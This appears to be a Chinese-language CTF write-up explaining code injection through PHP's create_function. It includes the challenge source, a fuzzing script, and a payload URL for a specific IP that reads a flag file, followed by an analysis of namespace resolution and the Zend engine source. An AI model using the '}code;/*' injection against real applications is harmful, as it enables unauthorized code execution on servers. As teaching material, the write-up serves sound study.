


# 利用create_function执行代码

### 一.	CTF题目

```php
<?php
$action = $_GET['action'] ?? '';
$arg = $_GET['arg'] ?? '';

if(preg_match('/^[a-z0-9_]*$/isD', $action)) {
    show_source(__FILE__);
} else {
    $action('', $arg);
}
```

  通过正则判断字符串是否只包含字母数字下划线，若是则显示源代码，若否则执行函数\$action('',$arg)

### 二.	解题思路

  #### 为了能执行代码我们需要两点，1.找到一个字符添加到函数名前或函数名后仍不影响函数的正常执行2.找到能执行代码且参数形式为('',\$arg)的函数

* 对于1. 最简单的解决方式是写一个测试页面进行FUZZ

   ```php
   <?php
   $code = $_GET['code'];
   if(!empty($code)){
   	$function = $code.'system';
   	echo $function;
   	var_dump($function('ls -l'));
   }
   ```
    设置payload为%00-%8f，进行FUZZ，可以得到结果%5c -> \\
   

* 对于2. 满足条件的函数就需要通过PHP文档或搜索引擎查找，经过查找找到如下函数：

   ```php
   string create_function ( string $args , string $code )
   ```

   当控制点在第二个参数时利用的利用方式：

   ```php
   }code;/*
   ```

   所以最终payload如下

   ```php
   http://51.158.75.42:8087/?action=\create_function&arg=}echo%20file_get_contents("/var/www/flag_h0w2execute_arb1trary_c0de");/*
   ```
   


   ### 三.背后的原理
#### 1.为什么"\create_function"等价于"create_function" —— php命名空间中有三种名称：

* 非限定名称 —— $person = new Human();若当前命名空间为current，则Human被解析为current\Human

* 限定名称 —— 若子命名空间为sub，$person = new sub\Human();则Human被解析为current\sub\Human

* 完全限定名称 —— $person = new \Human();

  在一个命名空间中，类的名称会优先被解析为current\classname，所以此时要访问PHP全局类要使用完全限定名称

  ```php
  <?php
  namespace A;
  class MYExection extends \Exception{
    ...
  }
  ...
  ```

  也就是说全局函数/类的默认命名空间就是"\\"，"\create_function"就相当于使用了"create_function"的完全限定名称

#### 2.为什么"create_function"可以执行代码，利用方式中"}code;/*"为什么要这样闭合：

* 要理解这两点，需要分析create_function的源代码

  ```c
  ...
  #define LAMBDA_TEMP_FUNCNAME	"__lambda_func"
  /* {{{ proto string create_function(string args, string code)
     Creates an anonymous function, and returns its name (funny, eh?) */
  ZEND_FUNCTION(create_function)
  {
      zend_string *function_name;
  	char *eval_code, *function_args, *function_code;
  	size_t eval_code_length, function_args_len, function_code_len;
  	int retval;
  	char *eval_name;

  	if (zend_parse_parameters(ZEND_NUM_ARGS(), "ss", &function_args, &function_args_len, &function_code, &function_code_len) == FAILURE) {
  		return;
  	}

  	eval_code = (char *) emalloc(sizeof("function " LAMBDA_TEMP_FUNCNAME)
  			+function_args_len
  			+2	/* for the args parentheses */
  			+2	/* for the curly braces */
  			+function_code_len);

  	eval_code_length = sizeof("function " LAMBDA_TEMP_FUNCNAME "(") - 1;
  	memcpy(eval_code, "function " LAMBDA_TEMP_FUNCNAME "(", eval_code_length);

  	memcpy(eval_code + eval_code_length, function_args, function_args_len);
  	eval_code_length += function_args_len;

  	eval_code[eval_code_length++] = ')';
  	eval_code[eval_code_length++] = '{';

  	memcpy(eval_code + eval_code_length, function_code, function_code_len);
  	eval_code_length += function_code_len;

  	eval_code[eval_code_length++] = '}';
  	eval_code[eval_code_length] = '\0';

  	eval_name = zend_make_compiled_string_description("runtime-created function");
  	retval = zend_eval_stringl(eval_code, eval_code_length, NULL, eval_name);
  	efree(eval_code);
  	efree(eval_name);

  	if (retval==SUCCESS) {
  		zend_op_array *func;
  		HashTable *static_variables;

  		func = zend_hash_str_find_ptr(EG(function_table), LAMBDA_TEMP_FUNCNAME, sizeof(LAMBDA_TEMP_FUNCNAME)-1);
  		if (!func) {
  			zend_error_noreturn(E_CORE_ERROR, "Unexpected inconsistency in create_function()");
  			RETURN_FALSE;
  		}
  		if (func->refcount) {
  			(*func->refcount)++;
  		}
  		static_variables = func->static_variables;
  		func->static_variables = NULL;
  		zend_hash_str_del(EG(function_table), LAMBDA_TEMP_FUNCNAME, sizeof(LAMBDA_TEMP_FUNCNAME)-1);
  		func->static_variables = static_variables;

  		function_name = zend_string_alloc(sizeof("0lambda_")+MAX_LENGTH_OF_LONG, 0);
  		ZSTR_VAL(function_name)[0] = '\0';

  		do {
  			ZSTR_LEN(function_name) = snprintf(ZSTR_VAL(function_name) + 1, sizeof("lambda_")+MAX_LENGTH_OF_LONG, "lambda_%d", ++EG(lambda_count)) + 1;
  		} while (zend_hash_add_ptr(EG(function_table), function_name, func) == NULL);
  		RETURN_NEW_STR(function_name);
  	} else {
  		zend_hash_str_del(EG(function_table), LAMBDA_TEMP_FUNCNAME, sizeof(LAMBDA_TEMP_FUNCNAME)-1);
  		RETURN_FALSE;
  	}
  }
  ...
  ```

  代码分析：

  首先定义变量，"char *function_args"、"char *function_code"对应的就是用户传入的参数"string $args , string $code" ，"char *eval_code"则为拼接后要执行的代码

  ```c
  ...
  char *eval_code, *function_args, *function_code;
  ...
  ```

  调用emalloc为eval_code开辟内存空间，长度为函数名称长度+参数长度+代码长度+闭合代码所需的中括号以及花括号的长度。emalloc是一个定义在zend_alloc.h中的宏，用来申请内存，根据使用的内存管理机制来决定调用原生的malloc还是Zend的_zend_mm_alloc_int进行内存分配

  ```c
  ...	
  eval_code = (char *) emalloc(sizeof("function " LAMBDA_TEMP_FUNCNAME)
  			+function_args_len
  			+2	/* for the args parentheses */
  			+2	/* for the curly braces */
  			+function_code_len);
  ...
  ```

  "eval_code_length = ..."设置拷贝长度，"memcpy(...)"，将指定长度的字符串拷贝到eval_code中，"eval_code + eval_code_length"相当于将指针偏移到对应的内存位置来进行拷贝，实际上完成了拼接的功能

  ```c
  ...	
  	eval_code_length = sizeof("function " LAMBDA_TEMP_FUNCNAME "(") - 1;
  	memcpy(eval_code, "function " LAMBDA_TEMP_FUNCNAME "(", eval_code_length);

  	memcpy(eval_code + eval_code_length, function_args, function_args_len);
  	eval_code_length += function_args_len;

  	eval_code[eval_code_length++] = ')';
  	eval_code[eval_code_length++] = '{';

  	memcpy(eval_code + eval_code_length, function_code, function_code_len);
  	eval_code_length += function_code_len;

  	eval_code[eval_code_length++] = '}';
  	eval_code[eval_code_length] = '\0';
  ...
  ```

  此时用户的输入就被拼接成了这样的函数(在下一步执行前还是字符串)

  ```c
  function __lambda_func(function_args){
      function_code
  }
  ```

  然后代码就会传入"zend_eval_stringl"执行

  ```c
  ...
  retval = zend_eval_stringl(eval_code, eval_code_length, NULL, eval_name);
  ...
  ```

  定位到"zend_eval_stringl"，函数主体位于zend_execute_API.c中

  ```c
  ...
  ZEND_API int zend_eval_stringl(char *str, int str_len, zval *retval_ptr, char *string_name TSRMLS_DC) /* {{{ */
  {
  	zval pv;
  	zend_op_array *new_op_array;
  	zend_op_array *original_active_op_array = EG(active_op_array);
  	zend_uint original_compiler_options;
  	int retval;

  	if (retval_ptr) {
  		Z_STRLEN(pv) = str_len + sizeof("return ;") - 1;
  		Z_STRVAL(pv) = emalloc(Z_STRLEN(pv) + 1);
  		memcpy(Z_STRVAL(pv), "return ", sizeof("return ") - 1);
  		memcpy(Z_STRVAL(pv) + sizeof("return ") - 1, str, str_len);
  		Z_STRVAL(pv)[Z_STRLEN(pv) - 1] = ';';
  		Z_STRVAL(pv)[Z_STRLEN(pv)] = '\0';
  	} else {
  		Z_STRLEN(pv) = str_len;
  		Z_STRVAL(pv) = str;
  	}
  	Z_TYPE(pv) = IS_STRING;

  	/*printf("Evaluating '%s'\n", pv.value.str.val);*/

  	original_compiler_options = CG(compiler_options);
  	CG(compiler_options) = ZEND_COMPILE_DEFAULT_FOR_EVAL;
  	new_op_array = zend_compile_string(&pv, string_name TSRMLS_CC);
  	CG(compiler_options) = original_compiler_options;

  	if (new_op_array) {
  		zval *local_retval_ptr=NULL;
  		zval **original_return_value_ptr_ptr = EG(return_value_ptr_ptr);
  		zend_op **original_opline_ptr = EG(opline_ptr);
  		int orig_interactive = CG(interactive);

  		EG(return_value_ptr_ptr) = &local_retval_ptr;
  		EG(active_op_array) = new_op_array;
  		EG(no_extensions)=1;
  		if (!EG(active_symbol_table)) {
  			zend_rebuild_symbol_table(TSRMLS_C);
  		}
  		CG(interactive) = 0;

  		zend_try {
  			zend_execute(new_op_array TSRMLS_CC);
  		} zend_catch {
  			destroy_op_array(new_op_array TSRMLS_CC);
  			efree(new_op_array);
  			zend_bailout();
  		} zend_end_try();

  		CG(interactive) = orig_interactive;
  		if (local_retval_ptr) {
  			if (retval_ptr) {
  				COPY_PZVAL_TO_ZVAL(*retval_ptr, local_retval_ptr);
  			} else {
  				zval_ptr_dtor(&local_retval_ptr);
  			}
  		} else {
  			if (retval_ptr) {
  				INIT_ZVAL(*retval_ptr);
  			}
  		}

  		EG(no_extensions)=0;
  		EG(opline_ptr) = original_opline_ptr;
  		EG(active_op_array) = original_active_op_array;
  		destroy_op_array(new_op_array TSRMLS_CC);
  		efree(new_op_array);
  		EG(return_value_ptr_ptr) = original_return_value_ptr_ptr;
  		retval = SUCCESS;
  	} else {
  		retval = FAILURE;
  	}
  	if (retval_ptr) {
  		zval_dtor(&pv);
  	}
  	return retval;
  }
  ...
  ```

  定义"zend_op_array"，"zend_op_array"是Zend引擎的输入部分，包含3方面的内容：1.opcode(opcode是PHP代码编译成的Zend虚拟机可识别的指令)2.字面量(PHP中变量的初始化值、函数名称、类名称、常量名称等)3.变量分配情况；简单的来讲，PHP的执行过程可简化为PHP代码 -> 通过编译成为opcode -> 交由Zend引擎执行

  ```c
  ...
  zend_op_array *new_op_array;
  ...
  ```

  将传入的字符串编译为opcode

  ```c
  ...
  new_op_array = zend_compile_string(&pv, string_name);
  ...
  ```

  将"zend_op_array"传入"zend_execute"执行代码，并将返回值存入"local_retval"

  ```c
  ...
  zend_execute(new_op_array, &local_retval);
  ...
  ```

  "create_function"这个函数本身的作用是创建一个匿名函数，"zend_execute"是Zend引擎的执行部分，一开始传入的字符串到了这一步就相当于被当作PHP代码执行了，也就创建了一开始拼接成的函数。需要注意的是这里只是创建了函数并未调用，要达到代码执行的效果需要将函数闭合，由于传入的字符串就是拼接而成并未经过任何的处理或过滤，所以可以轻易的闭合代码


  如果可控点在第一个参数——"function_args"，也就是"create_function"的"$arg"，则闭合语句为"){}echo 1;/*"：

  ```php
  #此时执行的代码如下:
  function __lambda_func(){

  }echo 1;/*){
      ...
  }
  ```

  如果可控点在第二个参数——"function_code"，也就是"create_function"的"$code"，则闭合语句为"}echo 1;/*"：

  ```php
  #此时执行的代码如下:
  function __lambda_func(){ 
  }echo 1;/*
  }
  ```
   回到题目，可控点在第二个参数，所以payload就构造为
   ```php
  http://51.158.75.42:8087/?action=\create_function&arg=}echo%20file_get_contents("/var/www/flag_h0w2execute_arb1trary_c0de");/*
   ```


